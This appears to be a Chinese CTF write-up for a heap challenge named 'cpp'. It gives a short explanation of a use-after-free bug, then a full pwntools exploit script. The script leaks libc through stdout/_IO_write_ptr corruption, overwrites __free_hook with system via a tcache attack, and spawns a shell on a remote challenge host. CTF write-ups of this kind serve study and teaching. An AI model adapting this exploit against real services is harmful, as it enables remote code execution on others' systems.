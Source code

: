 # cpp
比较明显的UAF漏洞，控制好堆布局，利用修改unsorted chunk的fd低地址指向_IO_write_ptr，修改其末位为"\xF0"即可，或者修改stdout的flags位和_IO_write_base，前者只需要用0x20的chunk即可设置，布局比较简单

leak后再次tcache attck修改&\_\_free\_hook-8位置为"/bin/sh\x00"+system_addr即可在edit触发free时getshell

### EXP:
```
from pwn import *
context.log_level="debug"

def add():
    p.sendafter("ye\n","C")

def edit(note):
    p.sendafter("ye\n","W")
    p.sendline(note)

def delete():
    p.sendafter("ye\n","D")

for i in range(100):
  try:  
    p=remote("123.57.4.93",12001)
    #p=process("./cpp")
    add()
    add()
    add()
    edit("a"*0x80)
    for i in range(8):
        delete()
    edit("\x00"*0x18)
    edit("\x00"*0x18)
    edit("\x88\xf7")
    edit("\x88\xf7")
    edit("\x88\xf7")
    delete()
    delete()
    delete()
    delete()
    delete()

    edit("\x00")
    add()
    edit("\xf0")
    edit("\xf0")
    p.recv(5)
    libc=u64(p.recv(6)+"\x00\x00")+ 0x7ffff7443000-0x7ffff78308c0
    print hex(libc)

    add()
    edit(p64(libc+0x03ed8e8-0x8))
    edit(p64(libc+0x03ed8e8-0x8))
    edit("/bin/sh\x00"+p64(libc+0x4f4e0))
    #edit("\x00")
    #gdb.attach(p)
    p.interactive()
  except:
    print "fail"
```